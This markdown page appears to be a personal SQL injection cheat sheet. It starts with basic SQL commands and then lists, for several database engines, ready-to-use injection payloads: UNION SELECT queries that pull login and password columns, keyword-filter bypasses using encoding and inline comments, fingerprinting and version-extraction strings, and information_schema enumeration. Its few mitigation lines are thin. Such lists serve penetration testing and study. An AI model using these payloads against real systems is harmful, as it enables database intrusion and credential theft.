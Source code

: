 ```yaml
---
layout: page
title:  "SQL injections"
permalink: "sql-injections.html"
tags: [security, injections, web]
---
```

# SQL memo
## Data types
* **INT**: signed integer on 4 bytes
* **DATE** and **TIME**: self-explanatory. Moron.
* **VARCHAR**: strings
* **BLOB** and **TEXT**: binary object of big size
* **ENUM** and **SET**: string in a list

## Commands
{% highlight sql %}
SHOW databases;
CREATE database database_name;
USE database_name;
CREATE TABLE users (id INT NOT NULL, login VARCHAR(20), password VARCHAR(40));
DESC users; # Display the structure of the table
INSERT INTO table_name VALUES(123, 'test_user', 'test_pass'); # Clear-text password
INSERT INTO table_name VALUES(1234, 'sec_user', password('test_pass'));
ALTER TABLE users MODIFY password VARCHAR(41);
UPDATE users SET password=password('better_pass_123') WHERE login='test_user';
SELECT * FROM users WHERE login='test_user' AND password=password(better_pass_123');
DROP TABLE users;
{% endhighlight %}



# Simple injections
* `'`, `''` (SQL-escaped single quote)
* `test' OR 1=1 --`
* `UNION SELECT login, password FROM users #`
* Select the line using **LIMIT**: `UNION SELECT login, password FROM users LIMIT 1,1 #`
* Balancing the quotes: `test' OR 'a' ='a`
* Wildxard character: `%``
* Numerics: `3-1`, `67-ASCII('A')`, `51-ASCII(1)` (implicit numeric to string cast)
* Test if injection in **SELECT**: input `1` results in `SELECT 1,..` so first column is filled with 1s
* Return number of lines: `aa' UNION SELECT count(*), users.password FROM users; --`
* `' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --`


# Mitigations
* PHP `htmlentities()`
* PHP `addslashes()`. Can be bypassed if another encoding is used.



# Strategies
* Get the version string of the database
* Use string concatenation techniques to produce legitimate input
* MySQL ~ Sybase
* Blind injection: insert data into a user field, such as a profile name
* Blind injection: best to look for interesting columns names rather than tables (use `LIKE '%pass%'` for password-related columns)
* Second order injections



# Tactics
* URL-encode HTTP-related characters
* Oracle globally accessible table: `DUAL`. Useful to complete **SELECT** statements
* Return strings through numeric columns: `ASCII` and `SUBSTRING` functions to return one character at a time

## SELECT filtering bypasses
```
SeLeCt
%00SELECT
SESELECTLECT
%53%45%4C%45%43%54
%2553%2545%254C%2545%2543%2554
SE/*MySQL only*/LECT
```

## Comments as spaces
* `SELECT/*foo*/password/*bar*/FROM/*foobar*/users`
* MySQL: comments inside keywords `SE/*damn!*/LECT/*foo*/password/*bar*/FROM/*foobar*/users`

## Database fingerprinting
* Oracle: `BITAND(1,1)-BITAND(1,1)`
* MS-SQL: `@@PACKED_RECEIVED-@@PACKED_RECEIVED`
* MySQL: `CONNECTION_ID()-CONNECTION_ID()`
* MySQL version fingerprinting: inline comment `/*!32302 and 1=0*/` ignored if database version doesn't match `32302` version string. Else, interpreted as `and 1=0`
* Comments:
  * MS-SQL, MySQL (with a space after double hyphens), Oracle: `--`
  * `#`
  * `;`
* MS-SQL and MySQL version string: `' UNION SELECT @@version, NULL-- `
* Oracle version string: `' UNION SELECT banner, NULL, NULL FROM v$version--`


## String
* Concatenation useful to return multiple results when only one **VARCHAR** columns found
* Oracle concatenation: `'||'test`
* MS-SQL concatenation: `'+'test`
* MySQL concatenation: `' 'test` (mind the space)
* Build Oracle string: `CHR(97)||CHR(98)='ab'`
* Build MS-SQL string: `CHAR(97)+CHAR(98)='ab'`


## Blind injections
* Table structure with MS-SQL, MySQL, SQLite and Postgresql: `' UNION SELECT table_name,column_name FROM information_schema.columns--`
* Table structure with MS-SQL: `SELECT table_name+':'+column_name FROM information_schema.columns--`
* Table structure with MySQL: `SELECT CONCAT(table_name, ':', column_name) FROM information_schema.columns--`
* Table structure with SQLite: `' UNION SELECT name, sql FROM sqlite_master;`
* Table structure with Oracle:
  * `' UNION SELECT table_name,column_name FROM all_tab_columns;`
  * `' UNION SELECT table_name,column_name FROM user_tab_columns;`
  * `SELECT table_name||':'||column_name FROM all_tab_columns;`
* Number of columns:
  * `ORDER BY 1`, `ORDER BY 2` ...
  * `UNION SELECT NULL--`, `UNION SELECT NULL, NULL--` ... Should be checked by reviewing raw response. Add `FROM DUAL` if Oracle.
* Discovering string columns: `SELECT 'a', NULL, NULL`, `SELECT NULL, 'a', NULL`, `SELECT NULL, NULL, 'a'`
* Name of columns: `ORDER BY "column_name"`
* Length of a string: TODO
* Number of values for **INSERT** statements: iteratively add fields
  ```
  test')--
  test', 1)-- Implicitly casted to a string in most DBMS
  test', 1, 2000)--  Implicitly casted to a date in most DBMS
  ...
  ```
* **SELECT** statement with unknown column type: `SELECT NULL, password`
